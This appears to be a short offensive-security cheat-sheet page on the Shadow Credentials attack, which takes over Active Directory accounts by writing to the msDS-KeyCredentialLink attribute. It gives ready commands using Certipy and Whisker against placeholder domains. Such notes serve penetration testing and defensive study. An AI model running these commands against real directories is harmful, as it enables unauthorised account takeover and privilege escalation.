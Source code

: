 ```yaml
---
title: Shadow Credentials
description: Shadow Credentials is an attack technique to take over Active Directory user/computer account by compromising msDS-KeyCredentialLink property of target objects.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
    - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials
date: 2023-12-14
draft: false
---
```


## Exploit

If the attacker can modify the target object's (user or computer account) attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates, he takes over the account in AD.

### Using Certipy

```bash
# -k: Use Kerberos authentication
certipy shadow auto -account "targetuser" -u "username@example.local" -p 'password' -dc-ip 10.0.0.1 -target dc.example.local -k
```

### Using Whisker

[Whisker](https://github.com/eladshamir/Whisker) is a C# tool for taking over Active Directory user and computer accounts by manipulating their msDS-KeyCredentialLink attribute.

```powershell
Whisker.exe add /target:john /domain:example.local
```